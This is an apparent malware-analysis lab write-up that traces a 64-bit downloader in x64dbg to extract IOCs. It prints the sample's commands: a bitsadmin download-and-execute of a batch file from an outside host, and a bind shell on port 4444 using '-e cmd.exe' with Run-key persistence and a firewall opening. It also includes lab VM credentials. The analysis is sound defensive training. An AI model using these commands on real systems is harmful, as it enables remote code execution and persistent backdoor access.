# Lab 13 - Debugging 64-bit Downloader using X64DBG

- [Lab 13 - Debugging 64-bit Downloader using X64DBG](#lab-13---debugging-64-bit-downloader-using-x64dbg)
  - [Scenario](#scenario)
  - [Tools](#tools)
  - [Task 1: General Sample Information](#task-1-general-sample-information)
  - [Task 2: Function calls and breakpoints](#task-2-function-calls-and-breakpoints)
  - [Task 3: Running the Downloader](#task-3-running-the-downloader)

---

## Scenario

You have been called by a client to examine a weird sample that was found on one of their developer’s systems. The client thinks this sample could be hiding its true nature of activity.

<br/>

The goal of this lab is to understand how to both debug and reverse engineer a downloader which is widely used by different threat actors.

<br/>

After completing this lab, you will be able to use a disassembler, such as IDA Pro, to reverse engineer a downloader. You will also be able to use a debugger, such as x64dbg, to debug the same downloader and understand what malicious activity is being carried by this downloader.

<br/>

192.168.210.10 / AdminELS / Nu3pmkfyX

<br/>

---

## Tools

- x64dbg
- IDA Pro
- PEStudio

<br/>

---

## Task 1: General Sample Information

**Question**

Gather general information about the sample using only a debugger.

<br/>

**Answer**

First load (open) the sample into **x64dbg**.

Note:
Attach = Load a running process
Open = Load an Image

  

<br/>

First check the **imported and exported APIs** by navigating to the **Symbols** tab:

  

<br/>

Double clicking `Downloader.exe` on the left will bring us to the disassembly:

  

<br/>

We can search for strings by `Right-click in the disassembly window > Search for > Current Module > String references`:

  


  

<br/>

Since the static analysis has been done before, it is skipped in this part. 

---

## Task 2: Function calls and breakpoints

**Question**

This is a malicious sample that was collected, and you need to Figure out what functions are being used and where to place a breakpoint to control the process.

<br/>

**Answer**

The main reason we use a debugger is to **have control of the execution flow** by adding breakpoints.

<br/>

By default, the debugger will stop at either:

- A system entry
- TLS callback
- The program's entrypoint

<br/>

In the **Symbol** tab, the program's entrypoint is highlighted in <red>red</red> (**Address of Entry Point**) - the red highlight mark means that there is a breakpoint at that address location.

  

<br/>

Next, double-click `Downloader.exe` on the left to get back to the disassembly.

Then `right-click in the disassembly window > Search for > Current Module > Intermodular calls`.

  

  

- New tab titled `Calls`
- Names of the modules are listed in parenthesis on the right
- The first 9 function calls (`ShellExecuteA`, `Sleep`, `URLDownloadToFileA`) are of interest

<br/>

Set breakpoints to the 9 function calls by `right-clicking the function > Toggle Breakpoint` one by one (or you can select the function calls then press `F2`):

  

<br/>

After that you will see the related addresses highlighted in red:

  

<br/>

We can also see the breakpoints we have set in the **Breakpoints tab**:

  

<br/>

After setting the breakpoints, run the program either by:

1. Click the Blue Arrow on the toolbar
2. Press `F9`

Then we should be brought to the **EntryPoint** in the **CPU tab**:

  

  

- Note the status bar at the bottom shows `Paused`
- It also tells a **software breakpoint** `INT3` is reached at `0x7FF65A1A138C` - the downloader's entrypoint

<br/>

---

## Task 3: Running the Downloader

**Question**

Determine the IOCs that could be created to find and identify this sample on other systems.

<br/>

**Answer**

Continuing Task 2, click on the **Blue Arrow** once again, which brings us to the first function call `ShellExecuteA`:

  

<br/>

Scroll up a few lines to see the instructions before the breakpoint:

  

  

- `rcx` holds the value `0`
- `rdx` holds the value `open`
- `r8` holds the value `cmd.exe`
- `r9` holds the value `/C bitsadmin.exe /transfer IND1 /.....`

<br/>

64-bit programs pass the first 4 parameters through registers with the rest using the stack. 

Therefore, the above 4 parameters that will be passed to `ShellExecuteA` function, and the last 2 parameters are being passed on the stack as shown in the 2 `mov` operations, were both pushed the value `0`.

<br/>

Now hit `F9` or the **Blue Arrow** again, the program will stop again at the `call Sleep` instruction.

<br/>

In fact, what have happened before this breakpoint are:

1. `ShellExecuteA` calls `cmd.exe` to run `bitsadmin.exe` to download the file **ShellRunas.zip** from Sysinternal website
2. Save the downloaded file to `C:\Windows\Temp\1.zip`

  

<br/>

Continuing the program flow, this time let's **step into** (`F7`) the `Sleep` function:

  

- You can now step into each step to see what happen
- Or you can press `CTRL+F9` to **Step until return**, which brings us to the function `ShellExecuteA`

  

<br/>

Again, examine the lines before the breakpoint and analyze what have happened:

  

  


1. `rcx` holds the value `0` --> hwnd
2. `rdx` holds the value `open` --> lpOperation
3. `r8` holds the value `cmd.exe` --> lpFile
4. `r9` holds the value `/C tar.exe -xf C:\\Windows ....` --> lpParameters

- Theses parameters will be passed to `ShellExecuteA`
- The last 2 parameters are being passed on the stack are `rdi` `C:\\Windows\\Temp\\` (lpDirectory) and `rbx` `0` (nShowCmd), as shown in the two `mov` operations.

<br/>

Then, pressing `F9`, `ShellExecuteA` will do `tar.exe -xf C:\\Windows\\Temp\\1.zip` and `del /F C:\\Windows\\Temp\\1.zip`:

1. open `cmd.exe`
2. Extract the content of `1.zip`
3. Delete `1.zip`

<br/>

  

<br/>

Remember the function `URLDownloadToFile` takes 4 parameters:

```
HRESULT URLDownloadToFile(
             LPUNKNOWN            pCaller,
             LPCTSTR              szURL,
             LPCTSTR              szFileName,
  _Reserved_ DWORD                dwReserved,
             LPBINDSTATUSCALLBACK lpfnCB
);
```

<br/>

  

- `rcx` holds `0` --> pCaller
- `rdx` holds `https://download.sysinternals.com/files/Autoruns.zip` --> szURL
- `r8` holds `2.zip` --> szFileName
- `r9` holds `0` --> dwReserved
- The last parameters is being passed on the stack, which holds `0` --> lpfnCB

<br/>

The following is what you will see after **Stepping into** the `URLDownloadToFileA` function:

  

- After hitting **Run**, the function will download `Autoruns.zip` from sysinternals website
- Save it to `C:\Windows\Temp\2.zip`

<br/>

Pressing `Ctrl+F9` to run until return, it brings us to the next breakpoint at the `call Sleep` instruction.

  

  

- `rcx` is set to `0x1388`, which is `5000` in decimal

<br/>

When we press `F9` again, the program will sleep for 5000 ms, and bring us to the next breakpoint at `ShellExecuteA` function call.

  

  

```
HINSTANCE ShellExecuteA(
  HWND   hwnd,
  LPCSTR lpOperation,
  LPCSTR lpFile,
  LPCSTR lpParameters,
  LPCSTR lpDirectory,
  INT    nShowCmd
);
```

  


- `rcx` holds `0`  --> hwnd
- `rdx` holds `open`  --> lpOperation
- `r8` holds `cmd.exe` --> lpFile
- `r9` holds `/C tar.exe .....`  --> lpParameters

<br/>

  


- `rdi` holds `C:\\Windows\\Temp\\`, which is being passed on the stack --> lpDirectory
- `ebx` holds `0` --> nShowCmd

<br/>

Running the program (`F9`) again, we arrive another breakpoint `call ShellExecuteA`. Here are what have happened:

1. Open `cmd.exe`
2. Execute `tar.exe -xf C:\Windows\Temp\2.zip`
3. Delete `C:\Windows\Temp\2.zip`

<br/>

  

1. `rcx` holds `NULL` --> hwnd
2. `rdx` holds `open` --> lpOperation
3. `r8` holds `cmd.exe` --> lpFile
4. `r9` holds `/C bitsadmin.exe /transfer IND2 /download /priority high http://www.elsmap.com/file.bat C:\\Windows\\Temp\\file.bat` --> lpParameters

<br/>

  

- The two `mov` operations indicates the last 2 parameters being passed on the stack
- `rdi` holds `C:\\Windows\\Temp\\` --> lpDirectory
- `ebx` holds `0` --> nShowCmd

<br/>

Running the program will:

1. Open `cmd.exe`
2. Execute the `bitsadmin` command the download `file.bat` from `www.elsmap.com`
3. Save it to `C:\Windows\Temp\file.bat`

<br/>

Press `F9` again and we will arrive at the next `Sleep` instruction:

  

<br/>

Since the VM does not have internet access, we cannot examine `file.bat`. But if true, we will get the following in `C:\Windows\Temp`:

  

1. Download `Printer.exe`
2. Save to `C:\Windows\Printer.exe`
3. Add a registry key at `HKLM\...\CurrentVersion\Run` to autorun `Printer.exe -Ldp 4444 -e cmd.exe`
4. Add an allowed entry in Windows Firewall to allow inbound tcp/4444 traffic

<br/>

Next, manually add a file `C:\Windows\Temp\file.bat`:

  

<br/>

Press `F9` in x64dbg, we arrive at `ShellExecuteA` function call breakpoint again:

  

<br/>

Summarize the actions after the `Sleep` function:

1. `rcx` holds `NULL` --> hwnd
2. `rdx` holds `open` --> lpOperation
3. `r8` holds `cmd.exe` --> `lpFile`
4. `r9` holds `/C C:\\Windows\\Temp\\file.bat && del /F C:\\Windows\\Temp\\file.bat` --> lpParameters
5. `ebx` holds `0` --> nShowCmd
6. `rdi` holds `C:\\Windows\\Temp\\` --> lpDirectory

<br/>

Running the program:

1. Open `cmd.exe`
2. Execute `C:\Windows\Temp\file.bat`
3. Delete `C:\Windows\Temp\file.bat`

  

<br/>

Now examine `C:\Windows\Temp`:

  

<br/>

---